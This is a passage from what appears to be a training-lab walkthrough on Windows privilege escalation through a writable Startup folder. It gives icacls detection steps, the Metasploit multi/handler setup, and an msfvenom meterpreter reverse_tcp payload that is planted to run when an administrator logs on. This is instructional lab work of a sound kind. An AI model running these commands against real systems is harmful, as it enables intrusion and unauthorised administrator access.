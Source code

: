 We are now in the "administrators" group:

~~~
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

# [Task 7] Privilege Escalation - Startup Applications

## #7.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.

**Exploitation**

Kali VM

1. Open command prompt and type: `msfconsole`
2. In Metasploit (msf > prompt) type: `use multi/handler`
3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp`
4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
5. In Metasploit (msf > prompt) type: `run`
6. Open another command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe`
7. Copy the generated file, "x.exe", to the Windows VM.

Windows VM

1. Place "x.exe" in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.
2. Logoff.
3. Login with the administrator account credentials.

Kali VM

1. Wait for a session to be created, it may take a few seconds.
2. In Meterpreter(meterpreter > prompt) type: `getuid`
3. From the output, notice the user is “User-PC\Admin”

## #7.1 - Click 'Completed' once you have successfully elevated the machine
